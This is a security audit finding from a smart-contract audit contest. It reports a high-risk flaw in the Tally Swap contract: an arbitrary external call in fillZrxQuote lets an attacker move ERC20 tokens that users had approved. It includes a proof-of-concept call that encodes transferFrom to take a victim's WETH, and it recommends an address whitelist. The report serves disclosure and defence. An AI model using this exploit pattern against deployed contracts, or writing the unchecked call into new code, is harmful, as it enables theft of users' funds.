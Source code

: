 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed

# [Arbitrary contract call allows attackers to steal ERC20 from users' wallets](https://github.com/code-423n4/2021-10-tally-findings/issues/37) 

# Handle

WatchPug


# Vulnerability details

https://github.com/code-423n4/2021-10-tally/blob/c585c214edb58486e0564cb53d87e4831959c08b/contracts/swap/Swap.sol#L200-L212

```solidity
function fillZrxQuote(
    IERC20 zrxBuyTokenAddress,
    address payable zrxTo,
    bytes calldata zrxData,
    uint256 ethAmount
) internal returns (uint256, uint256) {
    uint256 originalERC20Balance = 0;
    if(!signifiesETHOrZero(address(zrxBuyTokenAddress))) {
        originalERC20Balance = zrxBuyTokenAddress.balanceOf(address(this));
    }
    uint256 originalETHBalance = address(this).balance;

    (bool success,) = zrxTo.call{value: ethAmount}(zrxData);
```

A call to an arbitrary contract with custom calldata is made in `fillZrxQuote()`, which means the contract can be an ERC20 token, and the calldata can be `transferFrom` a previously approved user.

### Impact

The wallet balances (for the amount up to the allowance limit) of the tokens that users approved to the contract can be stolen.

### PoC

Given:

- Alice has approved 1000 WETH to `Swap.sol`;

The attacker can:

```
TallySwap.swapByQuote(
    address(WETH),
    0,
    address(WETH),
    0,
    address(0),
    address(WETH),
    abi.encodeWithSignature(
        "transferFrom(address,address,uint256)",
        address(Alice),
        address(this),
        1000 ether
    )
)
```

As a result, 1000 WETH will be stolen from Alice and sent to the attacker.

This PoC has been tested on a forking network.

### Recommendation

Consider adding a whitelist for `zrxTo` addresses.

